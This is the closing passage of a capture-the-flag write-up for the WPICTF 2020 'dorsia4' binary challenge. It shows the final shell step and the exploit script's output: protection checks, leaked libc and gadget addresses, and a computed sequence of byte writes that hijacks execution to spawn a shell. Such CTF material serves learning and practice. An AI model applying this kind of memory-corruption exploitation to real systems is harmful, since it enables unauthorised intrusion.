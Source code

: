 
#### Get a shell, get the flag

```python
p.interactive()
```

Just type `cat flag.txt`.


#### Output

```
# ./exploit.py
[*] '/pwd/datajerk/wpictf2020/dorsia4/nanowrite'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to dorsia4.wpictf.xyz on port 31337: Done
[*] '/pwd/datajerk/wpictf2020/dorsia4/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
system:  0x7f69251ad440
libc:    0x7f692515e000
printf:  0x7f69251c2e80
dprintf: 0x7f69251c3180
gadget:  0x7f69251ad322

computing safe addresses...1 seconds
building graph...12 seconds

path found (len: 14):

0x1c2e80
0x1c3180
0x1c3171
0x283171
0x283183
0x280e83
0x280ecf
0x2800cf
0x280087
0x1a0087
0x1a1a87
0x1a1ac9
0x1ad3c9
0x1ad322

put 0x31 in 1
put 0x71 in 0
put 0x28 in 2
put 0x83 in 0
put 0xe in 1
put 0xcf in 0
put 0x0 in 1
put 0x87 in 0
put 0x1a in 2
put 0x1a in 1
put 0xc9 in 0
put 0xd3 in 1
put 0x22 in 0
```